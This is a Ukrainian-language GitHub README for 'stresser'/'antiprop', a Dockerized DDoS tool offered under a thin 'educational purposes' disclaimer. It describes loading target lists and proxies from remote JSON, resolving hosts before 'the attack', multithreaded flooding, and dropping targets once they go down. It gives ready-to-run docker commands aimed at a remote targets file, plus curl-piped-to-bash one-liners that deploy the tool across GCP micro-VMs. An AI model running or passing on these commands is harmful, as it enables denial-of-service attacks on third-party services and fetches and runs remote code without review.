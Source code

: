 # stresser

## This program is made only for educational purposes only and test stressing. Any illegal usage of the program is discouraged.

### Переваги
- Підгружає цілі та проксі динамічно із вказаних прапорцями джерел (--proxy, --sites)
- Якщо є зміни в джерелах, програма їх бачить підвантажує оновлені дані
- Перевіряє на валідність цілі та резолвить хости перед атакою (DNS resolution)
- Перевіряє на валідність проксі
- Не вижирає багато пам'яті (ідеально для мікро-інстансів)
- Багатопотоковість з одного контейнера
- Розумний вибір цілей: якщо ціль лежить або не відповідає -- перестаємо колупати
- Для запуску потрібен лише Docker
- Україномовна із детальними логами, що пояснюють роботу

```bash
docker run --rm -it lovefromukraine/antiprop --refresh=20 \
--dnsres=true --errcount=9 --onlyproxy=false --bots 10 --checkproxy=true \
--sites https://raw.githubusercontent.com/meddion/stresser/sources/targets.json \
--proxy https://raw.githubusercontent.com/meddion/stresser/sources/proxy.json
```

Запустити у фоновому режимі:
```bash
docker run -d --restart=always --name=antiprop lovefromukraine/antiprop --refresh=20 \
--dnsres=true --errcount=9 --onlyproxy=false --bots 10 --checkproxy=true \
--sites https://raw.githubusercontent.com/meddion/stresser/sources/targets.json \
--proxy https://raw.githubusercontent.com/meddion/stresser/sources/proxy.json
```
Щоб побачити логи
```bash
docker logs antiprop -f
```
Щоб вбити програму
```bash
docker rm -f antiprop
```

### Запуск в GCP VMs / Run in GCP VMs
[Antiprop on Docker Hub](https://hub.docker.com/repository/docker/lovefromukraine/antiprop)

Дивись файл micro_vms_gcp.sh / Look into micro_vms_gcp.sh
```bash
curl https://raw.githubusercontent.com/meddion/stresser/main/micro_vms_gcp.sh | bash -s 10 
```
Запуск із власними джерелами
```bash
curl https://raw.githubusercontent.com/meddion/stresser/main/micro_vms_gcp.sh | bash -s 10 \
<URL_TARGETS_JSON_ARRAY> \
<URL_PROXY_JSON_ARRAY>
```
![image](https://user-images.githubusercontent.com/25509048/156889923-0a3bd42b-5ee0-466c-8e48-b8295cead812.png)

### Використання / Usage
```bash
docker run --rm lovefromukraine/antiprop --help
```

